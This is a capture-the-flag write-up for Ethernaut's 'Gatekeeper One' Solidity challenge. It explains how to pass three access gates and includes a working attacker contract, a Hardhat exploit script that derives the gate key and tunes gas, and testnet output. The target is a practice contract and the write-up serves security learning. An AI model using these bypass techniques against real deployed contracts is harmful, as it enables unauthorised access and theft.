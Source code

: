 ```yaml
---
title: Ethernaut \#13 Gatekeeper One
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Gatekeeper One challenge writeup
---
```


## Gatekeeper One

### Challenge

Make it past the gatekeeper and register as an entrant to pass this level.

#### Things that might help:

* Remember what you've learned from the Telephone and Token levels.
* You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Background

This challenge is rather simple. It mainly has multiple conditions in order that need to be satisfied in order to pass the challenge. The only thing that is not trivial is how to get the `gasleft` to be a multiple of `8191`.

### Attack

In order to enter, three `modifier`s need to be satisfied, the first require the `msg.sender` and `tx.origin` to be different. This can be achieved using a smart contract to trigger the `enter` function. Then the `gas` needs to be estimated such that it has a remainder of `8191` when `gasleft()` is reached. Finally the `_gateKey` needs to have some non-zero value for the 4 MSB, then two zeros and then the last two bytes of the `tx.origin`.

* Create a contract that:
  * calls the `GatekeeperOne` `enter` function
  * has a specific `gas` associated with the `enter` function
* Generate the `_gateKey` by:
  * Using `0x00000001` as the MSB
  * Then `0x0000` as the next two bytes
  * Finally the last two bytes of `tx.origin`
* Trigger the attacker controlled contract to call the `enter` function

#### GatekeeperOneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/GatekeeperOne.sol';

contract GatekeeperOneSolve {

    constructor() public {}
    
    function enter (address payable _gatekeeperOneAddress, bytes8 _gateKey) public payable {
        GatekeeperOne gatekeeperOneContrtact = GatekeeperOne(_gatekeeperOneAddress);
        gatekeeperOneContrtact.enter{gas: 868500}(_gateKey);
    }

}
```

In order to deduce the gas amount I used remix, debuged the contract execution in the remix vm, and checked what the `gas` opcode pushed onto the stack. I then found how much i needed to add (or subtract) in order for that value to be a multiple of 8191 and I added it to the `gas` I provided. I then had to reduce the value a bit when executing for the rinkeby network, because I set a the `gas` lower in my `hardhat.config.js`.

#### gatekeeper-one-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    gatekeeperOneAddress = "0x24315b9ab5e38cF2F6126F7827D2EB3aC5296b27";
    contract = await ethers.getContractAt("GatekeeperOne", gatekeeperOneAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    GatekeeperOneSolve = await ethers.getContractFactory("GatekeeperOneSolve");
    gatekeeperOneSolve = await GatekeeperOneSolve.deploy();
    await gatekeeperOneSolve.deployed();

    console.log("Initial entrant: " + await contract.entrant())

    // generate the gate key
    gateKey = ethers.utils.hexZeroPad(ethers.utils.hexConcat([
        "0x01", 
        "0x0000", 
        ethers.utils.hexDataSlice(account.address, 18)
    ]), 8)

    console.log(gateKey)

    // submit the gate key
    tx = await gatekeeperOneSolve.connect(account).enter(contract.address, gateKey)
    receipt = await tx.wait()

    console.log("Entrant        : " + await contract.entrant())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash$ npx hardhat run scripts/gatekeeper-one-solve.js --network rinkeby
Initial entrant: 0x0000000000000000000000000000000000000000
0x000000010000276d
Entrant        : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Well done! Next, try your hand with the second gatekeeper...
